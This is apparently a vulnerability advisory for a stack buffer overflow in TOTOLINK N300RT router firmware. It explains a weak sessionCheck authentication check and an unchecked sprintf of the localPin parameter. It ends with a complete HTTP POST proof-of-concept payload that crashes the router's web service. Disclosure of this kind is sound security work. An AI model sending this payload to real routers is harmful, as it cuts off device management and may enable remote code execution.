



# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** N300RT

**Affected firmware version:** N300RT V2_Firmware <= V3.4.0-B20250430

**Firmware download address:** [download](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/154/ids/36.html)

# Overview

TOTOLINK routers have been found to have a buffer overflow vulnerability. The N300RT model has a serious stack-based buffer overflow vulnerability. This vulnerability can cause a buffer overflow by routing to `/boafrm/formWsc` and deliberately controlling the `localPin` parameter, resulting in a denial of service (DoS) attack or potential remote code execution (RCE).

# Vulnerability details

The vulnerability is triggered by a combination of a weak authentication check and an unsafe string formatting function.

First, here is the entry of the request function in the `boa` web server dispatcher. The server relies on a flawed mechanism using `strstr()` to verify the validity of the request. By prepending a valid `sessionCheck` token at the beginning of the POST body, an attacker can easily bypass the security check and route the payload to the vulnerable handler.



Before passing the parameter to the execution sink, the program calls `is_cmd_string_valid()` to check the input. However, as shown below, this function only filters out specific command injection characters (like `;`, `|`, `&`, etc.) and completely lacks length validation.



Finally, the controllable `localPin` parameter is passed into a `sprintf` function without bounds checking. The failure to use a safe `snprintf` and the use of a raw `%s` format placeholder instead of a fixed-length one directly leads to a stack-based buffer overflow, overwriting the saved return address (`$ra`).



# POC

To reproduce the vulnerability, log in to obtain a valid `sessionCheck` token, and send the following crafted HTTP request. The `localPin` parameter is padded with characters exceeding the buffer size to trigger the overflow.


HTTP

```
POST /boafrm/formWsc HTTP/1.1
Host: 192.168.1.1
Content-Length: 597
Cache-Control: max-age=0
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:148.0) Gecko/20100101 Firefox/148.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Referer: http://192.168.1.1/wizard.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

sessionCheck=ce9c286355132571a3c0c0310e7ad79d&localPin=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

After sending the payload, the `boa` web service crashes immediately, resulting in a Denial of Service. The router's management interface becomes inaccessible.


